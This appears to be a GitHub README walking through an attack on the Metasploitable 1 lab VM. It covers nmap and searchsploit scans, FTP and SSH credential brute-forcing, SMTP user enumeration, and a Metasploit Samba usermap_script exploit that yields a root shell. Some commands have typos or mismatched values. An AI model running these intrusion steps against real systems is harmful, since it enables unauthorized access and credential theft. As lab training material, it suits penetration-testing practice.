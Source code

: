 ### download the machine from https://www.vulnhub.com/entry/metasploitable-1,28/  
then luanch using vmware credintials are msfadmin:msfadmin
ip a to get machine 

Notes :
----

make sure your system is upgraded           
sudo apt update && sudo apt upgrade                 
sudo apt isntall exploitdb 


scan the target using nmap 
--
Nmap -sV -Sc <machine ip>  get 12 open ports 21 -22-23-25-53-80-139-445-3306-5430-8009
 
  
now lets walkthough each port and see what we can do (sepratly and combined ):
----

PORT  ::  STATE  ::  SERVICE ::  VERSIO
  
21/tcp :: open :: ftp ::   ProFTPD 1.3.1  
  ----

perform the command "searchsploit ProFTPD 1.3.1 " to check if the service is vulnerable
  
Exploits: No Results

try "searchsploit ProFTPD 1.3. " 
  
found some intersting result like " ProFTPd IAC 1.3.x - Remote Command Execution | linux/remote/15449.pl"
  
run the command " searchsploit -m linux/remote/15449.pl "   to mirror the exploit which is  source code written in Perl 
  
nano 15449.pl
  
taking some time try to understand the code and verify that's not malicous
  ----
using the interpreter python to verfiy ech hexa variable 
  
i DECIDED TO Import this source code to metasploit As module if you don't know how 
watch this video for it >> https://www.youtube.com/watch?v=l7mwIvT5YNo

the result was'nt pleasent :::Metasploit is not detecting the scrpit  
  --
i've tried alot but doesn't work
  
searching for the issu found that this exploit does not written as metasploit module so 
  
msf would have no idea what to do with it
  
you can see this article  https://github.com/rapid7/metasploit-framework/issues/12825

so i decided to run the exploit as it is using perl interpreter 
  --
typeing perl 15549.pl <ip target> <my ip> target type

it appeared that this script does not have vuln for the exact ProFTPD 1.3.1  So it fails to exploit the service 

so i've moved to another approched " brute forcing the service for weak credintials " 
  --
using Nmap Engine 
nmap <tagetip> 21 --script =ftp-brute.nse

took 600s to find valid credintial of user:user 

checking to see if this ftp supports excuting command through " SITE EXEC command" 
it seems like it does not support that 

so far we got valid credintaial for ftp with no ablility to excute commands or existance of sensitve files
 perform another intensive scan for the ftp , found potential vuln
 
 CVE-2011-4130 CVSS 9.0
 ---
 
allows remote authenticated users to execute arbitrary code , let's give it a shot 
 unfortentally there are no proof of concept or working exploit availabe online also there is no metasploit module for it
 
 so let's move on
 
 
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
----
trying the same credintial of fttp for ssh it works :D 

  now we can excute files on the machine  
 
 get step back and use nmap scropt engine for inteinsive scanning for port22
 
 nmap -sV -sC 192.168.1.3 -p 22 --script vuln get some result 
 
 CVE-2011-1013 CVSS 7.2
---
 allows local users to cause a denial of service (system crash)

 CVE-2010-4478 CVSS 7.5
---
 which allows remote attackers to bypass the need for knowledge of the shared secret, and successfully authenticate
 
  unfortentally there are no proof of concept or working exploit availabe online also there are no metasploit module for them
 
 so i've moved to another approched " brute forcing the service for root credintials " using metaspolit
 ---
 msf > use auxiliary/scanner/ssh/ssh_login
 
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27
 
RHOSTS => 192.168.1.3
 
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
 

 msf auxiliary(ssh_login) > run
 
 no promising results , so lets move forward 
 
23/tcp   open  telnet      Linux telnetd
---
 nmap

  nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 saerchsplit for telnet linux 
 coulden't verfy that the service is vulnerable 

 25/tcp   open  smtp        Postfix smtpd
 -----
 
 nmap -sV -sC 192.168.1.3 -p 23 --script vuln get some result
 the service is vurnalble to two mitm attacks (which i skiped) 
 enumerating the user using smpt-user-enum tool getting me this result 
 --
 
 192.168.1.3:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data

bruteforcing the password using hydra but authentication not enabled on the server 
 
 53/tcp   open  domain      ISC BIND 9.4.2
----
 using nmap engine found CVE-2008-0122 CSSV 10.0 vulnebilitys that causes Denial Of ServiceExecute CodeMemory corruption

 
 There are not any metasploit modules related to this CVE or any working online exploit
 
 
 
 80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
---
 running nmap , searching edb and mfs couldn't verfy vulnerability for the exact version of the service
 
 139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
      445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
----
 saerching exploit database for Samba getting me MSF module that returns a root shell 
 > use exploit/multi/samba/usermap_script
> set RHOST 192.168.1.3
> exploit 

 $whoami 

 root 
 sudo/etc/shadow :D 
 
 3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
 ---
 Could not find any vulnerabilities matching this version
 
 5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
---
 

 
 
 
 
